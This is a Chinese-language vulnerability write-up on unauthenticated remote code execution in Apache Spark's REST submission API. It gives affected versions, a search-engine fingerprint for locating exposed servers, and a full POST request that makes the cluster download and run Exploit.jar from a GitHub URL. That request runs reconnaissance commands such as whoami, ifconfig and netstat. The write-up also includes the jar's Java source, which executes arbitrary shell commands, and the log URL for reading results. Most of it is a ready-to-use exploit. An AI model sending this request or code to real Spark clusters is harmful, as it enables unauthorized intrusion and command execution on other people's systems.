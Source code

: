 # Apache Spark create 未授权访问漏洞

## 漏洞描述

Apache Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动ACL（访问控制），我们将可以在集群中执行任意代码。

## 漏洞影响

<a-checkbox checked>Apache Spark 3.1.2, 3.2.1, 3.3.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="APACHE-Spark-Jobs"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1648714918899-1bdd6f0c-f8fd-41e7-a89e-58efefb77413.png)

发送请求包

```php
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
# https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar
# Github代码为编译后的代码
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```

![img](../../../.vuepress/public/img/1648715077646-aa01a6a0-fb6b-4bb7-9659-4b70ed5ad62a.png)

再访问获得的 submissionId Url查看结果

```php
/logPage/?driverId={submissionId}&logType=stdout
```

![img](../../../.vuepress/public/img/1648715186026-e56711ca-b56f-4a59-b380-efefcabf08f9.png)